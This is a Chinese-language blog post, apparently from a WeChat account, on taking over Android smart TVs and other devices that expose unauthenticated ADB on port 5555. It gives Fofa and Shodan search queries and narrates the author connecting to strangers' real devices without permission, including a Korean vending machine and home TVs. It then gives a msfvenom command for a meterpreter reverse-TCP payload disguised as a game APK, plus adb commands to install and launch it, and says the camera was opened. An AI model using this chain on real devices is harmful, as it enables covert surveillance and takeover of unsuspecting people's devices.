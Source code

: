 # 远程黑进智能电视

## 声明

&emsp;&emsp;请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关。仅供学习研究。

## 介绍

&emsp;&emsp;在开始之前，我们首先要明白一些事情，市面上的智能电视所搭载的系统分为：Android系统，Apple TV自己的IOS系统，以及三星的Tizen系统。本文主要关注的是安卓系统的智能电视。废话不多说，让我们继续。

&emsp;&emsp;喜欢折腾机器的人应该都熟悉安卓的ADB（全称Android Debug Bridge），通过ADB可以可以直接操作管理Android模拟器或者真实的andriod设备。**换句话说，如果一个机器开启了ADB，并且没有验证，那么任何一个人都可以远程接管这台机器。**

&emsp;&emsp;下面进入我们的重头戏。

## 好戏开始

&emsp;&emsp;首先祭出万能的Fofa和Shodan大哥，我们来看看公网上开着ADB调试的机器有多少吧，我相信你会对结果大吃一惊：

查询语法：```"Android Debug Bridge" && port="5555"```

![](./attachment/2022-01-10/fofa_adb.png)

&emsp;&emsp;下面是Shodan，查询语法：查询语法：```"Android Debug Bridge" "Device" port:5555```

![](./attachment/2022-01-10/shodan_adb.png)

&emsp;&emsp;当然这些数据并不是百分之百准确，到后面的可能就过时了，但是架不住基数大啊。

&emsp;&emsp;到这里你又要说了，是啊确实很多，所以呢？

&emsp;&emsp;别急，下面才是精彩的部分。

## 利用

&emsp;&emsp;让我们随便挑一个韩国的ip看看：
![](./attachment/2022-01-10/korea_1.png)

&emsp;&emsp;adb连接上去：（请注意我不会教你adb工具的使用之类，如果要教下去的话那就没完没了了，本文只提供思路）

![](./attachment/2022-01-10/adb_1.png)

&emsp;&emsp;What a surprise！我们居然真的连上去了？那现在我们来看看它的屏幕是什么吧：

![](./attachment/2022-01-10/korea_1_result.png)

&emsp;&emsp;等等，这不是智能电视啊？虽然满屏幕韩文看不懂，但这个似乎是个售货机？

&emsp;&emsp;说实话，我对韩文一窍不通，但是通过操控屏幕我似乎在家里点了远程点了一点面包还是咖啡....

![](./attachment/2022-01-10/korea_1_result_2.png)


![](./attachment/2022-01-10/korea_1_result_1.png)

&emsp;&emsp;算了不管了，咖啡也喝不到，还是让我们去找电视吧：

## 真 电视

&emsp;&emsp;这个看上去是个电视：

![](./attachment/2022-01-10/korea_tv.png)

&emsp;&emsp;让我们连连看：

![](./attachment/2022-01-10/adb_tvbox.png)

&emsp;&emsp;这才像话哈哈哈，我们去看一下这家伙的电影库存：

![](./attachment/2022-01-10/adb_tv2.png)

&emsp;&emsp;好家伙，都是新电影，品味还不错（希望在我操控他屏幕的时候那个人不会正好在旁边，不然会吓的半死）

&emsp;&emsp;让我们再看一些其他的：

![](./attachment/2022-01-10/box_other.png)

![](./attachment/2022-01-10/adb_other3.png)

&emsp;&emsp;某人在玩王者荣耀：

&emsp;&emsp;emm....似乎还有一些少儿不宜的内容：

![](./attachment/2022-01-10/box_other2.png)

![](./attachment/2022-01-10/adb_other3.png)

## 更危险的部分

&emsp;&emsp;我们要知道，adb远程调试并不仅仅是看一看屏幕而已，如果一台机子开了adb并且允许远程调试，那就意味着给对方**完全控制**，有了adb权限，我们可以导出通话记录，安装软件，查看信息，远程打开摄像头，安装木马......

&emsp;&emsp;我之前有一篇文章讲了如何做一个木马软件安装包安装到安卓手机里然后完全控制对方的。

&emsp;&emsp;我们先生成一个木马（在这里不需要考虑免杀因为大部分机器上没有杀毒软件）

&emsp;&emsp;``` msfvenom -p android/meterpreter/reverse_tcp LHOST=ip LPORT=port R > angryBirdie.apk```

![](./attachment/2022-01-10/msf.png)

&emsp;&emsp;然后我们把木马推送到靶机并且启动：

&emsp;&emsp;```adb install angryBirdie.apk```

&emsp;&emsp;```adb shell am start com.metasploit.stage/.MainActivity```

![](./attachment/2022-01-10/msf1.png)

&emsp;&emsp;成功上线：

![](./attachment/2022-01-10/msf3.png)

&emsp;&emsp;打开摄像头：

![](./attachment/2022-01-10/msf2.png)

## 结束

&emsp;&emsp;从数量上来看，应该是有相当一部分厂商的电视是ADB模式默认开启的，一旦这些电视连到互连网上，就会给黑客造成可乘之机，普通用户根本不晓得还开了这个，也没办法关。

&emsp;&emsp;想象一下，当你在家里看电视时，另一双眼睛也在陪你一起看，如果你的平板有摄像头，那很有可能就会有一双眼睛在盯着你。

&emsp;&emsp;同样的，这样的“缺口”并不只存在于智能电视，还有你的手机，平板，自动贩卖机等等......没有绝对的安全。